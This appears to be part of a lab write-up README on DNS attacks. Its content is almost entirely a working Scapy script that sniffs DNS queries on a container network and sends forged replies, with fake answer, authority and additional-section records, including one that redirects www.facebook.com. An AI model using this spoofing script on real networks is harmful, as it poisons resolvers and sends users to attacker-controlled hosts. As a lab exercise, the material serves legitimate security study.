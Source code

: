 ![image-20220430162127851](README.assets/image-20220430162127851.png)

## 附加域

脚本如下

```python
#!/usr/bin/python
from scapy.all import *
def spoof_dns(pkt):
    if (DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname):
        # Swap the source and destination IP address
        IPpkt = IP(dst = pkt[IP].src, src = pkt[IP].dst)
        # Swap the source and destination port number
        UDPpkt = UDP(dport = pkt[UDP].sport, sport = 53)
        # The Answer Section
        Anssec = DNSRR(rrname = pkt[DNS].qd.qname, type = 'A',
        ttl = 259200, rdata = '1.1.1.1')
        
        
        # The Authority Section
        NSsec1 = DNSRR(rrname = 'example.net', type = 'NS',
        ttl = 259200, rdata = 'ns1.example.net')
        NSsec2 = DNSRR(rrname = 'example.net', type = 'NS',
        ttl = 259200, rdata = 'ns2.example.net')
        NSsec3 = DNSRR(rrname = 'example.net', type = 'NS',
        ttl = 259200, rdata = 'www.facebook.com')

        
        # The Additional Section
        Addsec1 = DNSRR(rrname = 'ns1.example.net', type = 'A',
        ttl = 259200, rdata = '1.2.3.4')
        Addsec2 = DNSRR(rrname = 'ns2.example.net', type = 'A',
        ttl = 259200, rdata = '1.2.3.5')

        Addsec3 = DNSRR(rrname = 'www.facebook.com', type = 'A',
        ttl = 259200, rdata = '3.4.5.6')

        
        # Construct the DNS packet
        DNSpkt = DNS(id = pkt[DNS].id, qd = pkt[DNS].qd, aa = 1, rd = 0, qr = 1,
        qdcount = 1, ancount = 1, nscount = 3, arcount = 3,
        an = Anssec, ns = NSsec1/NSsec2/NSsec3, ar = Addsec1/Addsec2/Addsec3)
        # Construct the entire IP packet and send it out
        
        
        spoofpkt = IPpkt/UDPpkt/DNSpkt
        send(spoofpkt)
# Sniff UDP query packets and invoke spoof_dns().
pkt = sniff(filter = 'udp and dst port 53 and src host 172.17.0.3',
prn = spoof_dns, iface = "docker0")

```
